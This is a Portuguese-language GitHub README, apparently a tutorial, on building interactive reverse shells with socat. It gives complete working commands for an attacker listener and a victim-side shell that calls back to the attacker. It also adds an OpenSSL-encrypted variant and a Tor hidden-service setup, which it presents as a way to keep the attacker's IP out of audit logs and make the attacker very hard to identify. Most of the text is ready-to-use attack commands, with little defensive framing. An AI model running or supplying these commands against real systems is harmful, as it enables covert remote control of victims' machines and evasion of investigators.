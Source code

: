<p align="center">

<h1 align="center"> Shell reverso interativo e criptografado 
<h1 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Debian.io" />

<img src="https://img.shields.io/badge/Tor-7D4698?style=for-the-badge&logo=Tor-Browser&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer que o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverso

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta e assim permite que o atacante abra uma porta de escuta em seu servidor para receber conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Podemos criar [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) de várias formas, nesse post utilizarei o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

## Shell reverso criptografado

Basta usar o openssl para criar as chaves.

Servidor:
```shell
# Atacante
PORT="1111"
openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"
socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```
Cliente:
```shell
# Vítima
HOST=localhost
PORT=1111
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid  
 ```
  
## Shell reverso utilizando a rede tor

Em sistemas robustos são guardados vários logs, inclusive de conexões. Assim o endereço de ip da atacante seria facimente descoberto em uma auditoria. Mas utilizando a rede tor o atacante consegue tornar seu endereço de ip desconhecido, ele deve ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa do proxy tor para redirecionar o servidor socat para rede tor. Para isso, o atacante precisa adicionar as seguintes linhas ao arquivo ao final do arquivo <strong>/etc/tor/torrc</strong>:

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```
Desta forma, todas as requisições que vierem da rede tor para o domínio do atacante pela porta 1111 serão redirecionadas para localhost:1111.

Agora reinicie o tor:

```
systemctl restart tor
```

Para descobrir qual é o domínio do atacante na rede tor, digite:

```bash
cat /var/lib/tor/service/hidden/hostname
```
A saída do comando retornará algo do tipo, exemplo:
```url  
asdejiyamcrsslvykfwnntlaru7p5svn6y2ymmju6nubxndf4zsdefgbnn.onion
```

O atacante deve executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=domínio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor usando o openssl como foi mostrado acima. Mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Podemos dizer que é extremamente difícil identificar o atacante.
## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do Hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).
